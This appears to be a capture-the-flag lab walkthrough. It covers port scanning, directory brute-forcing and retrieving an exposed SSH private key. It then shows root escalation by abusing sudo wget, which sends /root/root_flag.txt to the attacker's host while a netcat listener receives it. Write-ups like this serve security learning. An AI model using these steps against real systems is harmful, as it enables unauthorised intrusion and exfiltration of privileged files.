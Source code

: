 
## 🚀 Walkthrough

### 1️⃣ Enumeration
First, scan the target IP to discover open ports and running services:
```bash
nmap -sV <IP>
```
**Findings:**
- **Port 22 (SSH)** — Open, running OpenSSH  
- **Port 80 (HTTP)** — Apache web server running  

---

### 2️⃣ Finding a Username
Inspecting the HTTP service revealed a username that could be used later for SSH access.  

---

### 3️⃣ Directory Bruteforcing
Run **Gobuster** to enumerate directories:
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```
Found:  
```
/sitemap
```

---

### 4️⃣ Digging Deeper in `/sitemap`
At first, `/sitemap` seemed empty. Running Gobuster again on `/sitemap`:
```bash
gobuster dir -u http://<IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
```
Discovered:
```
/.ssh
```

---

### 5️⃣ Retrieving the SSH Key
Downloaded the SSH private key from:
```
http://<IP>/sitemap/.ssh
```
Fixed key permissions:
```bash
chmod 600 id_rsa
```

---

### 6️⃣ SSH Access
Logged in using the discovered username and private key:
```bash
ssh -i id_rsa <username>@<IP>
```
After successful login, retrieved the **user flag**:
```bash
cat user_flag.txt
```

---

### 7️⃣ Privilege Escalation to Root
Check available `sudo` privileges:
```bash
sudo -l
```
Found that **wget** can be run as root without a password.

---

### 8️⃣ Exfiltrating the Root Flag
Used `wget` to send the root flag to my local machine:
```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<your-ip>:<port>
```
On my machine, started a netcat to receive the file:
```bash
nc -nvlp 4444
```
**Root flag received!** 🏆

---

## 🎯 Flags Obtained
- **User Flag:** ✅  
- **Root Flag:** ✅  

---
